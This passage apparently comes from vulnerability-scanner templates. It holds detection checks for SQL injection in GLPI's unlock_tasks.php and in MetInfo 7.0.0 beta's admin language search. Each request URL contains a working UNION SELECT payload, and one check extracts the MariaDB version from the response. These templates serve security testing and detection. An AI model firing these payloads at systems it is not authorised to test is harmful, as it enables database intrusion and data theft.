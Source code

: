 ## Requests

- Method - GET

### URL

- {{BaseURL}}/glpi/scripts/unlock_tasks.php?cycle=1%20UNION%20ALL%20SELECT%201,(@@version)--%20&only_tasks=1
- {{BaseURL}}/scripts/unlock_tasks.php?cycle=1%20UNION%20ALL%20SELECT%201,(@@version)--%20&only_tasks=1

### Matchers

**Type - word**

- part - body
- words
  1. -MariaDB-
  2. Start unlock script
- condition - and

### Extractors

**Type - regex**

- part - body
- regex
  1. [0-9]{1,2}.[0-9]{1,2}.[0-9]{1,2}-MariaDB

---

# MetInfo 7.0.0 beta - SQL Injection

## Description

- MetInfo 7.0.0 beta is susceptible to SQL injection via the admin/?n=language&c=language_general&a=doSearchParameter appno parameter (a different issue than CVE-2019-16997).

- severity - high
- tags - cve,cve2019,metinfo,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/admin/?n=language&c=language_general&a=doSearchParameter&editor=cn&word=search&appno=0+union+select+98989\*443131,1--+&site=admin

### Matchers
